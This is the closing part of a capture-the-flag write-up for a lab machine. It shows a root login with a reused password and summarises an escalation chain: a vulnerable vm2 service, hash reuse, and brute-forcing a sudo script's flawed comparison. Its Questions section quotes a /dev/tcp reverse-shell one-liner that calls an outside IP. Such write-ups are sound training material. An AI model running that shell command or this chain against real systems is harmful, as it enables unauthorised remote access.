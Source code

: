 With that approach, I only needed to guess the first character of the password.

The recovered password works for the root account as well:

```console
joshua@codify:/opt/scripts$ su - root
Password: 
root@codify:~# cat root.txt
ff91e4[...]
```

## Questions

- Why didn't `sh -i >& /dev/tcp/10.10.16.5/443 0>&1` work for the reverse shell? Even when I `base64`-encoded it?

## Summary

This machine had an easy initial foothold via the vulnerable `vm2` web service. From there I could discover a password hash that was also valid for `ssh` login for the admin user. That user had `sudo` access to a script with a flaw in the string comparison, allowing a brute-force approach to recover the MySQL password character-by-character. (This may have been easier using `pspy` to snoop on the cmdline args for `mysql`.) Because of password-reuse, that password also granted shell access to the root account.
